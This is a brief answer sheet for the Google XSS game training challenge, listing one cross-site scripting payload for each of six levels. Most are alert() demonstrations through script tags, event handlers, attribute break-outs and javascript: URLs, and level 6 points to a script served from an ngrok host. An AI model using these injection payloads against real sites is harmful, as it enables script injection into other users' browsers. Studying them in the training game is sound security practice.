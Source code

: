 # LINK : https://xss-game.appspot.com/

```
Payloads

Level1 :  <script>alert(1)</script>

Level2 : <input type="button" onclick="javascript:alert(1)"/>

Level3 : 5.jpg' onerror='alert("1")'

Level4 : 1')%3Balert('1

Level5 :  javascript:alert(1)

level6 : Https://6ddad3ef419e.ngrok.io/letme.js

```